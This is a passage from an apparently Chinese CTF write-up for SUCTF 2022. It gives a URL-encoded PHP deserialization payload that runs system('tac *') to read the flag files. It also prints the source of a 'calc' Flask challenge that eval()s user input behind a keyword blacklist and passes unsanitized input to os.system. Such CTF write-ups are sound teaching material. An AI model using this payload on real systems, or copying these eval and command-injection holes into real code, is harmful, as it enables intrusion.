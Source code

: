 这里flag在当前目录下，有好几个文件，直接读完就行

payload：

```
O%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A4%3A%22what%22%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3BO%3A4%3A%22crow%22%3A2%3A%7Bs%3A2%3A%22v1%22%3BO%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3Bs%3A18%3A%22%0D%0Asystem%28%27tac+%2A%27%29%3B%22%3B%7D%7Ds%3A2%3A%22v2%22%3BN%3B%7D%7D%7D%7D
```

![](https://s2.loli.net/2022/03/26/lQU6GCyXRY9DbiB.png)



### calc（赛后）

```python
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
    blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag
    

@app.route("/")
def index():
    "欢迎来到SUctf2022"
    return render_template("index.html")

@app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
    
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"

```